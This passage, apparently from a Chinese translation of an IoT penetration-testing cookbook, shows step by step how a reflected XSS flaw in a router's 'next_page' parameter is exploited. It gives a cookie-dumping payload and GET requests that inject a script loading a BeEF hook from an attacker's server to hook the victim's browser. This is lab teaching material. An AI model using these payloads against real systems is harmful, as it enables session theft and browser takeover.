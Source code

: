 ![](img/e4fa7004-3f96-47af-97b7-4c17d1fb1c83.png)

1.  现在让我们更进一步，使用以下负载在警报框中转储任何 cookie：

```
'%2balert(document.cookie)%2b'
```

1.  现在我们可以看到在我们的浏览器中呈现出`IoTCookbook=1234567890`的 cookie 值，使用基本的`alert(document.cookie)`负载：

![](img/5917c0dd-44e6-4ceb-98bc-7d0962aa5415.png)

太棒了！我们现在知道我们可以在这一点上进行一些基本的 XSS 负载。幸运的是，我们还没有遇到任何字符限制或任何类型的过滤。让我们看看我们是否可以造成更多的损害，并将 BeEF 钩负载插入到易受攻击的参数中。毕竟，警报框会带来什么风险呢？

# 使用 BeEF XSS 负载的介绍

BeEF 是一个利用 Web 浏览器和客户端攻击向量的工具，通过易受攻击的应用程序参数和社会工程技术在受害者环境中钩取一个或多个 Web 浏览器。当受害者执行了它的负载时，BeEF 将钩取一个或多个 Web 浏览器，然后可以利用多个命令模块进行进一步的利用。接下来的部分将扩展我们发现的 XSS 漏洞，使其执行 BeEF 钩，并介绍一些基本用法。

BeEF 很强大，展示了 XSS 的影响力：

1.  现在我们已经演示了基本的 XSS 负载执行，我们将尝试使用类似格式的 BeEF 负载进行`GET`请求：

```
http://192.168.1.1/start_apply.htm?next_page= '+<script src=//172.16.100.139:3000/hook.js></script>+' 
```

1.  使用这个`GET`请求，我们可以看到浏览器响应一个损坏的页面，如下图所示：

![](img/8f20f997-5804-4dfb-8490-e2bd459956a4.png)

1.  再次，我们正在破坏一些 JavaScript 代码，阻止浏览器执行我们在 BeEF 服务器上托管的外部 JavaScript 代码。很可能我们需要终止预期的 JavaScript 代码，并开始我们自己的`<script>`标签，以请求我们的外部 JavaScript BeEF。我们可以尝试添加一个带有打开和关闭脚本标签括号的参数，添加引号，然后尝试使用以下`GET`请求调用我们的 BeEF 钩有效负载：

```
http://192.168.1.1/start_apply.htm?next_page=param<script></script>+"<script src=http://172.16.100.139:3000/hook.js></script>
```

1.  当我们发送`GET`请求并查看浏览器响应时，似乎输出相同的破损 JavaScript；但是，如果我们查看 ZAP，我们可以看到浏览器向我们的 BeEF 服务器发送请求：

![](img/0e4d47ed-73f8-4246-99b6-18f7b14c7bd3.png)

1.  以下是 ZAP 历史选项卡中显示的 BeEF 钩请求：

![](img/874c69c1-28ec-4c5c-af61-0a06d6c75255.png)

1.  从 BeEF 服务器，我们已成功用我们的有效负载钩住了我们的浏览器，如下面的屏幕截图所示：

![](img/84dc7381-1e28-4346-9c3b-8513ab31358e.png)

# 钩住受害者时 BeEF 的基本使用

